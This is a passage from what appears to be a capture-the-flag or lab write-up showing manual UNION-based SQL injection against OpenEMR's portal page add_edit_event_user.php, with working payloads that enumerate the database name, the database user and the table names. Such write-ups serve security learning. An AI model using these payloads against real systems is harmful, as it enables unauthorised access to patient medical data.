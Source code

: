 Next, let's enumerate Database name

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,database(),null HTTP/1.1
```

We can see our query resulted with database name as `openemr`

![database](/assets/img/Posts/Cache/database.png)

Next, let’s get the user which is running the queries on this SQL server.

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,user(),null
```

![user](/assets/img/Posts/Cache/user.png)

The user is `openemr@localhost`

Great! Now that our statement is working we can hop on to the next level to enumerate

#### Step 4: Enumerating Tables

Since, we already know we are running inside `openemr` database, Let’s try to get the list of tables under this database:

To understand Information scheme tables in details we can refer this [**page**](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)

> TABLE_SCHEMA: The name of the schema (database) to which the table belongs.

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,CONCAT(table_name),null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='openemr'
```

![table](/assets/img/Posts/Cache/table.png)

Looking at the result we see only one table entry, let reform our query by adding `group_concat` to the statement

```terminal
/portal/add_edit_event_user.php?eid=1 UNION SELECT null,null,GROUP_CONCAT(table_name),null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='openemr'
```
